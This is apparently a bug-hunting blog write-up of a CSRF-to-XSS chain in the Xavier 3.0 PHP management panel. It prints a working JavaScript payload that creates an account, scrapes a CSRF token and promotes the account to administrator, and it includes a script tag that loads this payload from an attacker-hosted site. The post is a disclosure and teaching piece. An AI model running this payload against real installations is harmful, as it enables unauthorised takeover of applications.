 ```yaml
---
layout: post
title:	"Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover"
date:	2019-07-22 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover </title>
</head>


# i. Introduction
In this post, I will detail my adventure of finding a bug with very low impact, and being able to leverage it into what essentially is an Application Takeover.

While hunting around on the application, I found a section where you can create users. After playing around, I noticed that when the registration would fail due to errors in the form such as a invalid username, too short password, etc, the username that you were trying to register would reflect on the error page.

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

I then tried adding an XSS payload to see if the parameter would be sanitized in anyway. To my surprise, the parameter was not sanitized and I was able to trigger an XSS. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/xss.png)

However, this would be considered to be a `Self-XSS` which has very low impact as it requires social engineering in order to remotely exploit.


# ii. Chaining CSRF with XSS

Feeling a little defeated, I thought of some ways I could leverage this XSS into something bigger. While doing some more testing, I noticed that the endpoint which is responsible for creating the user did not have any CSRF protection. This gave me an idea to try to chain the Self-XSS with the CSRF to hopefully obtain remote exploitation.

Here is an example of how the request looks like:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf-payload.png)

~~~
Payload Used: <script>alert(1)</script>
~~~

After converting the request to a CSRF proof of concept, I put it to test:


![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.gif)

It works, now we are able to remotely exploit a Self-XSS!

Do we stop here? No.


# iii. Application Takeover

Now that we are able to remotely exploit an XSS, what would be the impact? The obvious answer that comes to people's minds is stealing the session. However the application developers were one step ahead, and set the cookies to HTTPOnly. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/cookies.png)

The way that the application flow works when creating a new user is:
1. Register a new user
2. Find the user in the user list, click their name to edit their profile
3. Click the "promote to admin" button

If you are thinking, if we have a CSRF, why go through all the trouble of having to execute Javascript. Well according to the application flow, with a CSRF we would only be able to create a registered user. A registered user has the same privileges, if I would've registered on the application myself. Furthermore the endpoint which is in charge of elevating the user's privileges has CSRF protection.

With that in mind, I set off to find a way to be able to takeover the application chaining these two bugs.

I then wrote simple Javascript, when called will create a new user and then promote the user. This is able to bypass SOP, as the request will be called from the application. Furthermore this is also able to bypass the CSRF protection when promoting a user to the administrator as we can create an XMLHTTPRequest to parse the CSRF token and then include it with our subsequent request.

Host the following Javascript on your site:
~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

This will create a user with the username Hackerman, password: P4ssw0rd with Administrator privileges.

Then use a payload such as:
~~~
<script src="https://your-site.com/xavier.js"></script>
~~~

Create a CSRF proof of concept with the payload above, and host it on your site.

Executing the CSRF:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/takeover.gif)


So essentially with a Self-XSS and some creative thinking we were able to takeover an application. 


# iv. Conclusion

This was a great experience, and I've learned a lot. Remember when you have one piece of the puzzle, there are always ways to be able to leverage it into something bigger & greater. What normally would be treated as an informational bug, is able to be leveraged into something that can takeover the application.

As always, thank you for reading.

\- mqt

